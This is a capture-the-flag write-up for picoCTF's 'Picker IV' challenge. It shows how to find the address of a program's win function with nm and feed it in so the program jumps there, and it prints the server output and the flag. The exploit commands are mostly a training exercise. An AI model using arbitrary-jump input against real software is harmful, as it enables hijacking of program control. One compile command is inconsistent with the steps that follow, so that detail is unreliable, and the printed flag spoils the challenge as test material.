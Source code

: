 ### Picker IV
#easy #Binary_exploitation #picoGym

Author: LT 'syreal' Jones

#### Description

Can you figure out how this program works to get the flag? Connect to the program with netcat: `$ nc saturn.picoctf.net 61703` The program's source code can be downloaded [here](https://artifacts.picoctf.net/c/527/picker-IV.c). The binary can be downloaded [here](https://artifacts.picoctf.net/c/527/picker-IV).

##### Solution:

To successfully execute a function using this C code, you must input a valid memory address where an executable function is located. Specifically, this address should point to the `win` function if you want to trigger it and print the contents of `flag.txt`. Here’s how to determine the correct input:

## Steps to Determine the Address

1. **Compile the Program**:
   Ensure your program is compiled. If using `gcc`, you can compile it with:
   ```sh
   gcc -o nm picker-IV.c
   ```

2. **Find the Address of the `win` Function**:
   Use tools like `nm` to list the symbols in the compiled binary and find the address of the `win` function.
   ```sh
   nm picker-IV | grep "win"
   ```

   The output will look something like:
   ```css
   000000000040129e T win
   ```

   Here, `000000000040129e` is the address of the `win` function.

3. **Run the Program and Input the Address**:
   Run the program:
   ```sh
   ./picker-IV
   ```

   When prompted to enter the address, provide the address of the `win` function without the `0x` prefix:
   ```css
   Enter the address in hex to jump to, excluding '0x': 40129e
   You input 0x40129e
   You won!
   pico you win
   ```

perform same operation on server using address 40129e
```css
nc saturn.picoctf.net 62521
Enter the address in hex to jump to, excluding '0x': 40129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_01672a61}
```


